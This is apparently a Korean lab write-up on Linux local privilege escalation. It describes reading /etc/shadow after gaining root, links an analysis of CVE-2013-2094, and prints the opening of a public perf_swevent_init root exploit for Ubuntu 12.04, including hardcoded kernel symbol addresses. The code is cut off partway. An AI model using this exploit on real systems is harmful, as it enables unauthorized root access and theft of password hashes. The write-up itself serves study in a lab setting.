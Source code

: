 권한 상승을 통한 `/etc/shadow` 파일 읽기에 성공하였다.


# do: LPE() - automated
`TestVM`의 `/home/test/exercises/perf` 위치에 `perf_swevent_init` 함수의 취약점을 이용한 Ubuntu 12.04 [LPE Exploit PoC](https://www.exploit-db.com/exploits/33589)가 존재한다.

**190926 추가**
[이 링크](http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/)에 해당 취약점의 자세한 분석이 존재한다. 참고하면 좋을듯!

```sh
test@ubuntu:~/exercises/perf$ ls
vnik_v1  vnik_v1.c
test@ubuntu:~/exercises/perf$
```

**vnik_v1.c**
```c
/**
 * Ubuntu 12.04 3.x x86_64 perf_swevent_init Local root exploit
 * by Vitaly Nikolenko (vnik5287@gmail.com)
 *
 * based on semtex.c by sd
 *
 * Supported targets:
 * [0] Ubuntu 12.04.0 - 3.2.0-23-generic
 * [1] Ubuntu 12.04.1 - 3.2.0-29-generic
 * [2] Ubuntu 12.04.2 - 3.5.0-23-generic
 *
 * $ gcc vnik.c -O2 -o vnik
 *
 * $ uname -r
 * 3.2.0-23-generic
 *
 * $ ./vnik 0
 */

#define _GNU_SOURCE 1
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <syscall.h>
#include <stdint.h>
#include <assert.h>

#define BASE  0x1780000000
#define SIZE  0x0010000000
#define KSIZE 0x2000000
#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))

typedef int __attribute__((regparm(3))) (*commit_creds_fn)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred_fn)(unsigned long cred);

uint64_t targets[3][3] =
            {
	     {0xffffffff81ef67e0,  // perf_swevent_enabled
              0xffffffff81091630,  // commit_creds
              0xffffffff810918e0}, // prepare_kernel_cred
             {0xffffffff81ef67a0,
              0xffffffff81091220,
              0xffffffff810914d0},
```

[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>